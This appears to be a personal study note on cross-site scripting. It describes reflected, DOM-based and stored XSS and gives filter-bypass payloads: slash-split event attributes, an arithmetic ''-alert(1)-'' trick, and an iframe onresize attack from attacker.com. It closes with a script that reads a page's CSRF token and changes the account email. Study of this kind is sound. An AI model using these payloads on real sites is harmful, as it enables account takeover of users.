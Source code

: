 # Types of XSS

## Reflected XSS

Data is included from the user input and reflected in the web application without being made safe to render. In some cases, the user provided data may never leave the browser. 

## DOM-based XSS

Form of XSS where the entire tainted data flow from source to sink takes place in the browser. An example of this would be when the payload is supplied via the URL, e.g. `document.location.href`, and the sink is a sensitive method call that causes the execution of the malicious data, e.g. `document.write`. The key indicator the DOM is updated on the client-side via unsafe javascript. 

## Stored XSS

This is a form of persistent XSS. Data is stored in some form. When the user requests the page, the stored data is rendered on the browser resulting in an XSS. 

## Mutation XSS

## Universal XSS

# XSS Tricks 

## Slashes to split attributes

With a sink in a HTML element such as 

```js
<a ... href="<sink>"/>
```

Assuming you can escape the attribute with `"`, you could trigger XSS with various payloads such as `autofocus onfocus=alert(1)`. However, you could use slashses to split the attributes resulting in `autofocus/onfocus=alert(1)`. This would help to bypass any whitespace filters. 

## Using unicode parsing to decode into filtered characters

// TODO 

## Type Juggling to trigger function calls

Assuming you have a sink within a script tag, such as 

```js 
<script>
	var searchTerms = '<sink here>';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

If there are no filters, you could escape with `'; alert(1); //`
However, if `;` were filtered, it is still possible to execute functions via type juggling. A payload such as `' - alert(1) - '`, would cause js to perform arithmetic operations on the result of the function `alert(1)`, thus triggering the XSS. 

## Chaining `iframe` and `onresize` 

If you are able to embed the vulnerable website in an iframe, you might be able to cause an xss through the `onresize` event handler. To trigger this event, embed the website in an iframe deployed on attacker.com and resize it onload. Example as shown:

```js
<iframe src="vulnerablesite.com" onload=this.style.width='100px'>
```


# XSS Tips

## Inspector vs Source

In most cases, viewing source directly through Burp Repeater or `Ctrl+u` is more reliable as you're able to see the unprocessed HTML. This is makes it easier to distinguished whether you have escaped whatever context. Using inspector would show the processed output after the browser tries to correct intentionally wrong HTML syntax. 

However, when it comes to DOM-based XSS which uses javascript to populate the DOM `onload`, viewing source would not allow you to see the changes made by javascript. In this scenario, inspector is more suitable. 

## Waiting for DOM to load

After obtaining XSS via script injection, you might have to wait till the DOM loads to access elements within the DOM. To do so, you might have to use an event listener such as the following. 

```js
<script>
document.addEventListener("DOMContentLoaded", function() { 
	const formData ={ 
		'csrf': document.querySelector('input[name="csrf"]').value,
		'email': 'email@email.com'
	};
	fetch('/my-account/change-email', {
		method:'POST', 
		body: formData,
	});
});
</script>
```

